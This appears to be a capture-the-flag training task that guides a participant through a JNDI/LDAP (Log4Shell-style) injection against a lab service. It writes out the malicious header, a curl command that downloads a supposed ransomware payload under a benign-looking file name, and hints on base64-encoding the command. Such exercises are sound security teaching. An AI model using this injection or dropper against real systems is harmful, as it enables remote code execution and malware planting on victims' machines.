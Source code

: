 # Task 5: Drop It Like It’s Hot 🔥

## DESCRIPTION

Now that you’ve set up the malicious server, time to run the exploit.

To do this, you have to make a request to http://sudosingles-optimizer. But you’re going to include a specially crafted header to call back to your malicious LDAP server and execute a command.

In our case, the command will reach out to malicious url and drop a scary payload into the sudosingles-optimizer container.

## DETAILS

The malicious command we want to execute is:

curl PAYLOADDROPPERURL --output /srv/connectioncheck

Where PAYLOADDROPPERURL is the value found in FSSPayloadDropperUrl in the credential field below.

FSSPayloadDropperUrl is a special url that can be used to drop a ransomware payload. When the above command is executed in the container running sudosingles-optimizer, it will drop a nasty file in the /srv directory, disguised as something benign.

Just like before, we’ll make a request to our malicious LDAP server using curl on the attack machine. Open another Terminal Emulator window and run the following command:

curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/PAYLOAD}'

Where PAYLOAD is the malicious command that we crafted above and YOURIP is the attack machine’s private IP.

However, you’ll notice that if you just try to substitute the malicious command for PAYLOAD, then run the whole request to sudosingles-optimizer above, the exploit won’t work. Something is missing...

Maybe you need to encode PAYLOAD somehow? Hm...

When you believe you’ve successfully performed the exploit, click “Verify” to check your work.

## NOTES

No actual ransomware is involved in this challenge, so don’t worry. We’re just having fun here on Tech Day.

## SCORING

Verify -> PayloadCheckerLambda

## HINTS

### HINT 1

/Basic/Command/Base64 might be a hint! And the challenge said to "encode"... hmm.....

### HINT 2

You need to encode the malicious command as base64, and add it to the ldap url. For example: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/BASE_64_ENCODED_COMMAND}. If that isn’t working for you, triple-check to make sure that you have encoded the malicious command correctly.

### HINT 3

1. Craft the malicious command: curl PAYLOADDROPPERURL --output /srv/connectioncheck
2. Encode it as base64 using any tool. Base64encode.org is a great option.
3. Replace it in the command: curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/PAYLOAD}'
4. Execute
